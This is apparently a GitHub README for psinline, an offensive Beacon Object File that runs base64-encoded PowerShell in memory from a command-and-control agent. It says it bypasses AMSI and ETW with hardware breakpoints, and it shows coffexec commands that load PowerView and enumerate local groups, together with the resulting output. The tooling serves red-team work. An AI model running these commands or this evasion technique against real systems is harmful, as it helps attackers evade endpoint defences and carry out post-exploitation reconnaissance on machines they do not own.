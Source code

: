 # psinline

BOF for executing powershell directly in current process memory, avoiding process injections. Takes as input PS.exe an assembly running powershell commands base64 encoded. Code mostly taken from [Havoc](https://github.com/HavocFramework/Havoc),
for hardware breakpoints and [InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) for running assemblies through BOF.

## How it works 

Takes as input the following parameters:
1. PS.exe. Assembly that executes base64 encoded powershell
2. Powershell script. A powershell script. In case you don't need to provide it, just you can create a dummy powershell script with just one line.
3. powershell command.

The BOF concatenates your powershell command to the powershell script, base64 encode the concatenation and pass the base64 blob as arguments to PS.exe that executes it. It uses hardware breakpoints for AMSI/ETW bypass.

## How to run

Run the following commands in your badger:
```
=> set_coffargs /home/kali/CLionProjects/psinline/PS.exe /home/kali/CLionProjects/psinline/PowerView.ps1

2023/09/25 13:51:49 CEST [sent 1842868 bytes]

[*] CoffExec Arguments Updated
+-------------------------------------------------------------------+
=> coffexec /home/kali/CLionProjects/psinline/psinline.x64.o Get-NetLocalGroup
[*] Task-0 [Thread: 7844]

[*] Coffexec Output:

[*] Using .NET version v4.0.30319


ComputerName    GroupName                           Comment                                                             
------------    ---------                           -------                                                             
DESKTOP-URP43TK Access Control Assistance Operators Members of this group can remotely query authorization attributes...
DESKTOP-URP43TK Administrators                      Administrators have complete and unrestricted access to the compu...
DESKTOP-URP43TK Backup Operators                    Backup Operators can override security restrictions for the sole ...
DESKTOP-URP43TK Cryptographic Operators             Members are authorized to perform cryptographic operations.         
DESKTOP-URP43TK Distributed COM Users               Members are allowed to launch, activate and use Distributed COM o...
DESKTOP-URP43TK Event Log Readers                   Members of this group can read event logs from local machine        
DESKTOP-URP43TK Guests                              Guests have the same access as members of the Users group by defa...
DESKTOP-URP43TK Hyper-V Administrators              Members of this group have complete and unrestricted access to al...
DESKTOP-URP43TK IIS_IUSRS                           Built-in group used by Internet Information Services.               
DESKTOP-URP43TK Network Configuration Operators     Members in this group can have some administrative privileges to ...
DESKTOP-URP43TK Performance Log Users               Members of this group may schedule logging of performance counter...
DESKTOP-URP43TK Performance Monitor Users           Members of this group can access performance counter data locally...
DESKTOP-URP43TK Power Users                         Power Users are included for backwards compatibility and possess ...
DESKTOP-URP43TK Remote Desktop Users                Members in this group are granted the right to logon remotely       
DESKTOP-URP43TK Remote Management Users             Members of this group can access WMI resources over management pr...
DESKTOP-URP43TK Replicator                          Supports file replication in a domain                               
DESKTOP-URP43TK System Managed Accounts Group       Members of this group are managed by the system.                    
DESKTOP-URP43TK Users                               Users are prevented from making accidental or intentional system-...





[+] psinline Finished

+-------------------------------------------------------------------+
2023/09/25 13:52:33 CEST [input] admin => coffexec /home/kali/CLionProjects/psinline/psinline.x64.o Get-NetLocalGroup | fl *

2023/09/25 13:52:35 CEST [sent 41592 bytes]

[*] Task-0 [Thread: 6164]

[*] Coffexec Output:

[*] Using .NET version v4.0.30319



ComputerName : DESKTOP-URP43TK
GroupName    : Access Control Assistance Operators
Comment      : Members of this group can remotely query authorization attributes and permissions for resources on this 
               computer.

ComputerName : DESKTOP-URP43TK
GroupName    : Administrators
Comment      : Administrators have complete and unrestricted access to the computer/domain

[...]

[+] psinline Finished

```

![image](https://github.com/MrAle98/psinline/assets/74059030/29b96742-c21f-43df-a2a7-a310ca0b7c66)

## Notes

Everytime you launch psinline, wait for it to finish before launching it again. Having to threads running psinline at same time will break things and kill your process.

## Credits
- [@C5pider](https://github.com/Cracked5pider)
- [@anthemtotheego](https://github.com/anthemtotheego)
